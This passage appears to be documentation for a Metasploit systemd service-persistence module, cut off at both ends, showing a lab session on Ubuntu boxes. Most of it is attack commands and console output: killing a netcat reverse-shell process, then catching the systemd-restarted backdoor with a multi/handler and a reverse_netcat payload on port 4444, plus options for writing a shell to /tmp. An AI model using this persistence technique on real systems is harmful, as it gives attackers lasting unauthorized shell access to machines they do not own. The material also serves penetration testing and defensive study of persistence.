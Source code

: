     ^Z
    Background session 7? [y/N]  y

Kill the process on the Ubuntu target box via local access #good_admin

    root@ubuntu:/etc/systemd/system/multi-user.target.wants# netstat -antp | grep 4444
    tcp        0      0 192.168.199.130:47052   192.168.199.128:4444    ESTABLISHED 5632/nc
    root@ubuntu:/etc/systemd/system/multi-user.target.wants# kill 5632

And logically, we lose our shell

     [*] 192.168.199.130 - Command shell session 7 closed.  Reason: Died from EOFError

Now with a multi handler, we can catch systemd restarting the process every 10sec


    msf exploit(service_persistence) > use exploit/multi/handler 
    msf exploit(handler) > show options

    Module options (exploit/multi/handler):

     Name  Current Setting  Required  Description
     ----  ---------------  --------  -----------
    
    Payload options (cmd/unix/reverse_netcat):

     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  192.168.199.128  yes       The listen address
     LPORT  4444             yes       The listen port

    Exploit target:

     Id  Name
     --  ----
     0   Wildcard Target

    msf exploit(handler) > exploit

    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Starting the payload handler...
    [*] Command shell session 8 opened (192.168.199.128:4444 -> 192.168.199.130:47056) at 2016-06-22 10:37:30 -0400

### systemd user (Ubuntu 16.04 Server - vagrant)

    msf5 exploit(linux/local/service_persistence) > options

    Module options (exploit/linux/local/service_persistence):

      Name           Current Setting  Required  Description
      ----           ---------------  --------  -----------
      BACKDOOR_PATH  /tmp             yes       Writable path to put our shell
      SERVICE                         no        Name of service to create
      SESSION                         yes       The session to run this module on
      SHELL_NAME                      no        Name of shell file to write


    Payload options (cmd/unix/reverse_netcat):
